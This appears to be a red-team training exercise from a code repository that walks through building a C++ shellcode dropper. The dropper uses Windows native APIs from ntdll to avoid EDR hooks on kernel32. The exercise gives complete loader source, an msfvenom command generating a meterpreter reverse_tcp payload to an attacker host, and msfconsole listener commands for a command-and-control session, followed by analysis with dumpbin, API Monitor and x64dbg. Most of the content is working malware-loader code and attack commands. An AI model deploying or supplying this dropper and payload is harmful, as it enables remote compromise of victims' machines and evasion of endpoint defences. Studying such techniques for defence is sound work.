 ## Exercise 4: Medium_Level_API_Dropper
In this exercise, we will make the first modification to the reference dropper and replace the Windows APIs (kernel32.dll) with native APIs (ntdll.dll).
We create a **medium-level API shellcode dropper** in short **MLA-Dropper** based on native APIs. 
![medium_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235372969-4d24ddec-7ee5-443e-966a-24b3d70dc3a8.png)



## Exercice 4 tasks:
### Create MLA-Dropper
1. Create a new C++ POC in Visual Studio 2019 and use the provided code for the MLA-Dropper.
2. Create staged x64 meterpreter shellcode with msfvenom and copy it to the C++ MLA-Dropper poc. 
3. Compile the MLA-Dropper as release or debug x64. 
4. Create and run a staged x64 meterpreter listener with msfconsole.
5. Run your compiled .exe and verify that a stable command and control channel opens. 
### Analyse MLA-Dropper
6. Use the Visual Studio tool dumpbin to analyze the compiled MLA-Dropper. Is the result what you expected?  
7. Use the API Monitor to analyze the compiled MLA-Dropper in the context of the four APIs used. Is the result what you expected? 
8. Use the x64dbg debugger to analyze the compiled MLA dropper: from which module and location are the syscalls from the four APIs used being executed?
Is the result what you expected? 


## Visual Studio
To create the MLA-Dropper project, follow the procedure of the high-level API dropper exercise, take a look to follow the necessary steps.
We replace all Windows APIs with the corresponding native APIs and create our MLA-Dropper.
- NtAllocateVirtualMemory
- NtWriteVirtualMemory
- NtCreateThreadEx
- NtWaitForSingleObject

The code works as follows. Unlike the Windows APIs, most of the native APIs are not officially or partially documented by Microsoft and are therefore not intended for Windows OS developers. To use the native APIs in our MLA-Dropper, we must manually define the function pointers for the native API functions in the MLA-Dropper code.
<details>
    
 ```
 // Define function pointers for native API functions
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
typedef NTSTATUS(NTAPI* PNTCLOSE)(HANDLE);
typedef NTSTATUS(NTAPI* PNTFREEVIRTUALMEMORY)(HANDLE, PVOID*, PSIZE_T, ULONG);
 ```
</details>
    
    
Shellcode declaration same as before in the high-level API dropper.
<details>

```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>


To directly access the code of the native APIs used, we need to manually load the required native APIs from ntdll.dll.
<details>
    
```
// Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
    PNTCLOSE NtClose = (PNTCLOSE)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtClose");
    PNTFREEVIRTUALMEMORY NtFreeVirtualMemory = (PNTFREEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtFreeVirtualMemory");
```    
</details>    

For memory allocation, we replace the Windows API VirtualAlloc with the native API **NtAllocateVirtualMemory**.
<details>
    
```    
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```    
</details>    

For shellcode copying, we replace the Windows API WriteProcessMemory with the native API **NtWriteVirtualMemory**.
<details>
    
```
// Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);    
```
</details>    
    

For shellcode execution, we replace the Windows API CreateThread with the native API **NtCreateThreadEx**.
<details>
    
```
// Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);
```
</details>

And finally we have to replace the Windows API WaitForSingleObject with the native API **NtWaitForSingleObject**.
<details>
    
```
// Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);
```
</details>    

Here is the **complete code**, and you can copy and paste this code into your **MLA-Dropper** project in Visual Studio.
You can also download the complete **MLA-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <stdio.h>
#include <windows.h>
#include <winternl.h>

// Define function pointers for native API functions
typedef NTSTATUS(WINAPI* PNTALLOCATEVIRTUALMEMORY)(HANDLE, PVOID*, ULONG_PTR, PSIZE_T, ULONG, ULONG);
typedef NTSTATUS(NTAPI* PNTWRITEVIRTUALMEMORY)(HANDLE, PVOID, PVOID, SIZE_T, PSIZE_T);
typedef NTSTATUS(NTAPI* PNTCREATETHREADEX)(PHANDLE, ACCESS_MASK, PVOID, HANDLE, PVOID, PVOID, ULONG, SIZE_T, SIZE_T, SIZE_T, PVOID);
typedef NTSTATUS(NTAPI* PNTWAITFORSINGLEOBJECT)(HANDLE, BOOLEAN, PLARGE_INTEGER);
typedef NTSTATUS(NTAPI* PNTCLOSE)(HANDLE);
typedef NTSTATUS(NTAPI* PNTFREEVIRTUALMEMORY)(HANDLE, PVOID*, PSIZE_T, ULONG);


int main() {

    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Load native API functions from ntdll.dll
    PNTALLOCATEVIRTUALMEMORY NtAllocateVirtualMemory = (PNTALLOCATEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory");
    PNTWRITEVIRTUALMEMORY NtWriteVirtualMemory = (PNTWRITEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
    PNTCREATETHREADEX NtCreateThreadEx = (PNTCREATETHREADEX)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx");
    PNTWAITFORSINGLEOBJECT NtWaitForSingleObject = (PNTWAITFORSINGLEOBJECT)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWaitForSingleObject");
    PNTCLOSE NtClose = (PNTCLOSE)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtClose");
    PNTFREEVIRTUALMEMORY NtFreeVirtualMemory = (PNTFREEVIRTUALMEMORY)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtFreeVirtualMemory");


    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);

    // Return 0 as the main function exit code
    return 0;

}
```
</details>

    
## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the MLA-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our MLA-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled MLA-Dropper.exe. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## MLA-Dropper analysis: dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports high_level.exe
```
</details>    

<details>
    <summary>Solution</summary>    
Compared to the high-level dropper, you can see that the medium-level dropper **no longer imports** the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="729" alt="image" src="https://user-images.githubusercontent.com/50073731/235374656-117e0468-cd4d-4832-afb7-599cf94d2f1b.png">
</p>
</details>    

## MLA-Dropper analysis: API-Monitor
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and the corresponding native APIs, we can be sure that there are no more transitions in context of the used APIs in our MLA-Dropper. We filter on the following API calls:
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject

<details>
    <summary>Solution</summary>    
If everything was done correctly, you could observe that there are more transitions from the Windows APIs to the native APIs we used in our MLA-Dropper poc.
This result was expected and is correct because our MLA-Dropper accesses or imports the needed native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject directly from ntdll.dll.
<p align="center">
<img width="522" alt="image" src="https://user-images.githubusercontent.com/50073731/235374864-c7e90dd6-82c6-49d1-a90c-b80a531416b3.png">
</p>
</details>    

## MLA-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, so far we have not implemented system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your MLA-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight **ntdll.dll**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. 
    
<p align="center">    
<img width="867" alt="image" src="https://user-images.githubusercontent.com/50073731/235445644-240e5c3b-a3cf-4a7a-99be-27412e2dcb82.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are correctly executed/imported from the .text section in the ntdll.dll module. This investigation is very important because later in the direct syscall exercise we expect a different result with the low level dropper and want to match it.
    
<p align="center">    
<img width="686" alt="image" src="https://user-images.githubusercontent.com/50073731/235445865-c3fe83fa-1539-4ff3-b850-96cc91a0a01d.png">
</p>    
</details>


## Summary: Medium-level API Dropper
- We made the transition from high-level APIs to medium-level APIs, or from Windows APIs to native APIs.
- But still no direct use of system calls
- Syscall execution via medium_level_dropper.exe -> ntdll.dll -> syscall
- Dropper no longer imports Windows APIs from kernel32.dll
- In case of EDR would only hook kernel32.dll -> EDR bypassed 
